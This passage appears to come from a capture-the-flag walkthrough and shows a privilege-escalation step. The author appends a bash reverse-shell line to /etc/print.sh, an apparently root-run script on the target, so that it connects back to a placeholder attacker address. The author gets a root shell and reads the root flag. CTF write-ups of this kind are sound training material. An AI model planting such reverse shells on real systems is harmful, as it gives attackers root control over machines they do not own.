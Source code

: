 On the target machine I append the following to the /etc/print.sh file:

```bash
$ echo "bash -i >& /dev/tcp/<attack_box_ip>/4445 0>&1" >> /etc/print.sh
$ cat /etc/print
#!/bin/bash
echo "Done!"
bash -i >& /dev/tcp/<attack_box_ip>/4445 0>&1
```

Now I wait a minute for a connection.

It worked. I'm in! The cursor changed to the # character to let me know that I am root. I ran the following to get the flag:

```bash
# cat /root/root.txt
REDACTED
```

